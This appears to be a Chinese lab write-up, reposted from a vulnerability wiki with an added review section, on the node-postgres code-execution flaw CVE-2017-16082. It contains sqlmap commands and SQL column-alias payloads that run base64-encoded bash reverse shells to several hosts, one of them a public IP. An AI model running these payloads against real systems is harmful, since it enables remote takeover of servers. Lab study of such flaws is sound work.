




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：无pg包受影响/修复版本，需SQL列别名可控或恶意数据库响应及适用Node runtime

代码与实验材料：Row Description代码注入原理正确；两个SQL变体含不同外连地址，URL编码后完整请求只截图

来源证据范围：node-postgres公告和Leavesongs原研究，较强但未外查

- **操作与副作用边界（1）**：PoC包含外连目标且说明与代码不一致；依据：叙述命令与两组Base64拼接载荷不是相同地址/端口，其中有公共IP；不可直接当无副作用验证。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（2）**：SQL注入不能直接证明pg包漏洞；依据：发现PostgreSQL注入后只是猜测node-postgres，需确认客户端版本、代码生成路径和数据库标识符长度。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（3）**：缺版本和修复；依据：只有compose与sqlmap步骤，没有包锁与安全版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# node-postgres 代码执行漏洞 CVE-2017-16082

## 漏洞描述

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
- https://zhuanlan.zhihu.com/p/28575189

## 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息。




用sqlmap即可发现此处存在注入点，且数据库为postgres：

```
python sqlmap.py -u http://your-ip:3000/?id=1 --dbs
```




那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3R`+/*", 4 AS "*/`jcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= |base64 -d|bash`)//"

SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvd`+/*", 4 AS "*/`GNwLzEwMS40Mi4yMzcuNjEvMjMzMyAwPiYx |base64 -d|bash`)//"
```

将上述payload编码后发送：




成功执行命令，如反弹shell：




因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[P师傅的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
